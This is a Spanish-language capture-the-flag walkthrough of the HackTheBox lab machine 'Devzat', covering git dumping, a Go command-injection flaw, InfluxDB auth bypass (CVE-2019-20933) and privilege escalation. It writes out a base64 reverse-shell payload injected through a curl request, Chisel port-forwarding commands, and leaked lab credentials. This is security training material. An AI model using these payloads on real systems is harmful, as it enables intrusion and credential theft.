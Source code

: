 # Máquina "Devzat" de HackTheBox

## Características

- Linux
- Dificultad media
- Fuzzing de directorio .git (Recomposición de proyecto GIT)
- Inyección web (RCE) abusando de InfluxDB (CVE-2019-20933)
- Abuso del comando /file del chat Devzat (Escalada de privilegios)
- EXTRA (Desafío de criptografía CTF | Factorización N)

## Útil en

- eWPT
- eJPT

**IP:** 10.10.11.118

## Escaneo de puertos

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.118
```

**Resultado del escaneo de Nmap:** Puerto 22, Puerto 80, Puerto 8000. El servicio Apache se está ejecutando en el puerto 80, por lo que sabemos que hay una página web ejecutándose.

```bash
sudo nmap -sC -sV -p22,80,8000 10.10.11.118 -oN targeted
```

## Reconocimiento

Agregamos el nombre y la IP al archivo hosts local:

```bash
nano /etc/hosts
# Agregar: 10.10.11.118 devzat.htb pets.devzat.htb
```

Luego hacemos reconocimiento de directorios con gobuster:

```bash
gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://devzat.htb/ -t 20 2>/dev/null
```

![Gobuster resultado](/secciones/posts/imagenes/devzat/gobust1.png)

Guardamos todos los directorios encontrados y luego fuzzeamos:

```bash
ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://devzat.htb/FUZZ
```

Modificamos el fuzzing para que muestre solo los directorios o recursos con los códigos de estado especificados:

```bash
ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://devzat.htb/FUZZ -mc 200,204,301,307,401,403,405
```

## Análisis de la aplicación web

Mientras tanto, accedemos a la web y probamos con el puerto 8000. Vemos una página estilo IRC. Usamos el mismo nombre de usuario en la sección de contacto para acceder al chat. Esto nos proporciona un chat con un administrador que nos informa que existe una base de datos InfluxDB en algún lugar de la máquina.

El fuzzing anterior nos dio algunos recursos, específicamente un directorio `.git` que descargaremos a nuestra máquina.

## Explotación del repositorio Git

Descargamos una herramienta para la investigación de Git:

```bash
git clone https://github.com/internetwache/GitTools
```

Movemos el ejecutable de la herramienta a una carpeta y ejecutamos:

```bash
./GitTools/Dumper/gitdumper.sh http://pets.devzat.htb/.git/ dump
```

## Análisis del código fuente

Analizamos los archivos hasta encontrar el archivo `main.go`.

Después de analizarlo, podemos llegar a la conclusión de que es vulnerable a la inyección de comandos, específicamente en la sección:

```go
func loadCharacter(species string) string {
    cmd := exec.Command("sh", "-c", "cat characteristics/"+species)
    stdoutStderr, err := cmd.CombinedOutput()
    if err != nil {
        return err.Error()
    }
    return string(stdoutStderr)
}
```

## Explotación de la vulnerabilidad

Realizamos una inyección de código. Generamos una shell inversa en base64:

```bash
echo -n "bash -i >& /dev/tcp/10.10.14.13/4484 0>&1" | base64
```

La salida es:
```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDg0IDA+JjE=
```

Este código se agrega al curl:

```bash
curl -v -X POST "http://pets.devzat.htb/api/pet" -d '{"name":"test1","species":"cat;echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDg0IDA+JjE= | base64 -d | bash"}'
```

Esto enviará una shell inversa a nuestro puerto 4484. ¡Listo, estamos dentro!

![Acceso obtenido](/secciones/posts/imagenes/devzat/estamosadentro.jpeg)

## Reconocimiento interno

No está la flag, así que buscaremos algunas cosas como claves SSH:

```bash
find / -type f -name "authorized_keys" -ls 2>/dev/null
```

Como Patrick (nuestro usuario actual), buscaremos puertos abiertos:

```bash
netstat -pluton
```

```
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name     Timer
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:8086          0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:8443          0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      -                    off (0.00/0/0)
```

Vemos que está abierto el puerto 8086, que usa InfluxDB.

## Reenvío de puertos con Chisel

Descargamos Chisel y lo enviamos a la víctima:

```bash
chmod +x chisel
```

Lanzamos en nuestra máquina:

```bash
chisel server -p 1111 --reverse
```

En la víctima:

```bash
./chisel client 10.10.14.13:1111 R:8086:127.0.0.1:8086
```

Conexión establecida.

## Explotación de InfluxDB

Buscamos una vulnerabilidad asociada a InfluxDB que tiene una vulnerabilidad conocida (CVE-2019-20933) que permite omitir el inicio de sesión. Además, existe un exploit funcional para esta vulnerabilidad en particular.

```bash
git clone https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933.git
cd InfluxDB-Exploit-CVE-2019-20933
pip install -r requirements.txt
```

```bash
python3 main.py
```

![InfluxDB exploit](/secciones/posts/imagenes/devzat/influx1.png)

Luego ejecutamos:

```sql
SHOW MEASUREMENTS
```

![InfluxDB measurements](/secciones/posts/imagenes/devzat/influx2.png)

Después de ese volcado de usuario:

```sql
select * from "user"
```

![InfluxDB user data](/secciones/posts/imagenes/devzat/influx3.png)

Y tenemos las credenciales:

- **Usuario:** catherine
- **Contraseña:** woBeeYareedahc7Oogeephies7Aiseci

Ingresamos como Catherine y encontramos la flag de usuario.

## Escalada de privilegios

Aquí tenemos archivos zip llamados `devzat-dev.zip` y `devzat-main.zip`, por lo que debemos descomprimirlos en el directorio `/tmp`.

```bash
cp devzat-dev.zip /tmp
```

Desde el comando `diff`, el entorno "dev" implementa la función de lectura de archivos utilizando el comando `file` con protección por contraseña. El entorno "dev" se ejecuta en el puerto localhost 8443. Por lo tanto, desde la enumeración inicial utilizando la cuenta Patrick, no se puede verificar el proceso que se ejecuta en el puerto 8443.

```bash
diff dev/commands.go main/commands.go
```

Ahora es necesario descargar Chisel en el usuario Catherine para el reenvío de puertos:

```bash
chmod +x chisel_1.7.3_linux_amd64
```

Necesitamos reenviar el puerto desde aquí a nuestra propia máquina usando la herramienta que usamos anteriormente (Chisel) y el puerto SSH será 8443.

![Chisel SSH Catherine](/secciones/posts/imagenes/devzat/chiselsshcat.png)

```bash
ssh -l test 127.0.0.1 -p 8443
```

Capturamos la bandera root:

```bash
/file ../root.txt TechoCatStillAThingin2021?
```

¡Máquina terminada!

## Nota

Algunos de los writeups en esta página pueden tener contenido de otras páginas o tener muy pocas imágenes. Esto se debe a que en algunas de las máquinas que realicé, no tomé los apuntes o no tomé capturas de pantalla, así que he decidido buscar varios writeups y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí. También, si encuentras faltas de ortografía o cualquier error, puedes contactarme a mi correo.